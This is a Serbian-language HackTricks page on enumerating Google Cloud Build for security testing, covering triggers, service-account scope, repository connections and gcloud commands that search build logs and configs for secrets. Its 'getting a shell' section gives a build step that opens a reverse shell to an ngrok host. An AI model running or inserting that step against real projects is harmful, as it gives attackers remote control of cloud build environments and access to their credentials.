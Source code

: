 # GCP - Cloud Build Enum

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Osnovne informacije

Google Cloud Build je upravljana CI/CD platforma koja **automatizuje procese izgradnje** i objavljivanja softvera, integrišući se sa **repozitorijumima izvornog koda** i podržavajući širok spektar programskih jezika. Omogućava programerima da **automatski izgrade, testiraju i implementiraju kod**, pružajući fleksibilnost za prilagođavanje koraka izgradnje i radnih tokova.

Svaki Cloud Build okidač je **povezan sa Cloud Repository-jem ili direktno povezan sa spoljnim repozitorijumom** (Github, Bitbucket i Gitlab).

{% hint style="success" %}
Nisam primetio način da ukradem Github/Bitbucket token odavde ili iz Cloud Repositories jer kada se repozitorijum preuzme, pristupa mu se putem [https://source.cloud.google.com/](https://source.cloud.google.com/) URL-a i Github se ne pristupa putem klijenta.
{% endhint %}

### Događaji

Cloud Build se može pokrenuti ako:

* **Pritisnete na granu**: Navedite granu
* **Pritisnete novi tag**: Navedite tag
* **Pull zahtev**: Navedite granu koja prima PR
* **Ručno pokretanje**
* **Pub/Sub poruka**: Navedite temu
* **Webhook događaj**: Izložiće HTTPS URL i zahtev mora biti autentifikovan sa tajnom

### Izvršavanje

Postoje 3 opcije:

* Yaml/json **koji specificira komande** za izvršavanje. Obično: `/cloudbuild.yaml`
* Samo jedna koja se može specificirati "inline" u web konzoli i u CLI
* Najčešća opcija
* Relevantna za neautentifikovan pristup
* **Dockerfile** za izgradnju
* **Buildpack** za izgradnju

### Dozvole SA

**Servisni nalog ima opseg `cloud-platform`**, tako da može **koristiti sve privilegije**. Ako **nije specificiran SA** (kao kada se vrši podnošenje), **podrazumevani SA** `<projektni-broj>@cloudbuild.gserviceaccount.com` će biti **korišćen**.

Podrazumevano nisu dodeljene nikakve dozvole, ali je prilično jednostavno dodeliti neke:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Odobrenja

Moguće je konfigurisati Cloud Build da **zahteva odobrenja za izvršavanje izgradnje** (isključeno je po podrazumevanim podešavanjima).

### Veze i Repozitorijumi

Veze se mogu kreirati preko:

* **GitHub-a**: Prikazaće OAuth prozor koji traži dozvole za **dobijanje Github tokena** koji će biti sačuvan unutar **Secret Manager-a**.
* **GitHub Enterprise-a**: Zatražiće instalaciju **GithubApp**-a. Kreiraće se i sačuvati **autentifikacioni token** sa vašeg GitHub Enterprise hosta u ovom projektu kao tajna u **Secret Manager-u**.
* **GitLab / Enterprise**: Morate pružiti pristupni token API-ju i pristupni token za čitanje API-ja koji će biti sačuvani u **Secret Manager-u**.

Kada se generiše veza, možete je koristiti da **povežete repozitorijume do kojih Github nalog ima pristup**.

Ova opcija je dostupna preko dugmeta:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Imajte na umu da su repozitorijumi povezani na ovaj način **dostupni samo u okidačima koji koriste 2. generaciju.**
{% endhint %}

### Poveži Repozitorijum

Ovo nije isto kao **`veza`**. Ovo omogućava **različite** načine za **pristup Github ili Bitbucket** repozitorijumu, ali **ne generiše objekat veze, već generiše objekat repozitorijuma (1. generacija).**

Ova opcija je dostupna preko dugmeta:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Skladištenje

Ponekad će Cloud Build **generisati novo skladište za čuvanje datoteka za okidač**. To se dešava na primer u primeru koji GCP nudi sa:
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
Kreiran je Storage bucket pod nazivom [security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox) za skladištenje `.tgz` datoteke sa fajlovima koji će biti korišćeni.

### Dobijanje shell-a
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
### Enumeracija

Možete pronaći **osetljive informacije u konfiguracijama izgradnje i zapisima**.
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### Eskalacija privilegija

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### Neautentifikovan pristup

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### Post eksploatacija

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu u HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
